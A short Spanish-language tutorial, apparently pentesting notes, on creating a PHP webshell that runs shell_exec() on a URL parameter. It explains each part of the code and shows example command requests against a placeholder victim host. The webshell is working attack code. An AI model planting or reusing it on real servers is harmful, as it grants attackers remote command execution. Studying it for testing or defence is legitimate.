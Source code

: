 ## Generando Webshell

Creamos un archivo ***.php*** con el siguiente contenido:

```bash
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

**`$_REQUEST['cmd']`**:

- El parámetro `cmd` se obtiene de la URL a través de la variable `$_REQUEST`. En términos sencillos, esto significa que un atacante puede enviar un comando al servidor a través de la URL de la siguiente forma:

```bash
http://victima.com/webshell.php?cmd=ls
```

- **`shell_exec()`**:
    
    - La función **`shell_exec()`** ejecuta un comando de sistema operativo en el servidor y devuelve la salida del comando ejecutado. En este caso, el comando que el atacante pase en el parámetro `cmd` será ejecutado en el sistema del servidor.
        
- **`<pre>`**:
    
    - El uso de **`<pre>`** en HTML permite que la salida del comando se muestre en un formato preformateado, lo que es útil para mostrar la salida de los comandos del sistema sin que el formato se altere.


Nos dirigimos al directorio donde se haya subido la *webshell* y lo llamamos

```bash
http://victima.com/webshell.php?cmd=whoami
```


Lo subimos.
